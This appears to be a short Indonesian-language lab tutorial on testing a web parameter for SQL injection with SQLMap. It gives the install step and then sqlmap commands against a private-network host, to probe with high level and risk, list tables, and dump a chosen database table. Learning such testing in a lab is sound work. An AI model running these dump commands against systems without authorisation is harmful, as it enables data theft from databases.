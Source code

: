 # Pengujian SQL Injection Menggunakan SQLMap
## Instalasi SQLMap menggunakan Homebrew
Lakukan instalasi `brew install sqlmap`
![](/assets/sqlmap/1.png)
## Pengujian SQL Injection menggunakan SQLMap
1. Untuk melakukan pengecekan pada parameter, apakah mengandung vulnerable `sqlmap --url="http://10.151.36.103/?match=1" --level 5 --risk 3 --dbms mysql`
![](/assets/sqlmap/2.png)
2. `sqlmap --url "http://[alamat yang dituju]/?match=1" --dump -D [database yang diinginkan] -T [tabel yang diinginkan]`
`sqlmap --url "http://10.151.36.103/?match=1" --tables`
3. `sqlmap --url "http://10.151.36.103/?match=1" --tables`


